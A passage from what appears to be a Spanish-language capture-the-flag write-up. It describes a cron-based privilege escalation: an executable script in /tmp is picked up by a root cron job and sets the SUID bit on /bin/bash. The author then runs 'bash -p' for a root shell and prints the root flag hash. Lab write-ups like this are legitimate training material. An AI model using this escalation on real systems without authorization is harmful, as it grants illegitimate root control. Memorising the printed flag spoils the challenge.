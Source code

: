 Guardamos esto y le ponemos permisos de ejecuccion:

```shell
chmod +x /tmp/script.sh
```

Y ahora tendremos que esperar `1` minuto a que se ejecute, una vez que se haya ejecutado el crontab, si listamos la `bash`:

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

Veremos que ha funcionado y ahora la `bash` tiene permisos de `SUID`, por lo que haremos lo siguiente:

```shell
bash -p
```

Y con esto seremos `root` por lo que leeremos la flag de `root`:

> root.txt

```
687f891cbfd513ac53641755ce0efe5e
```
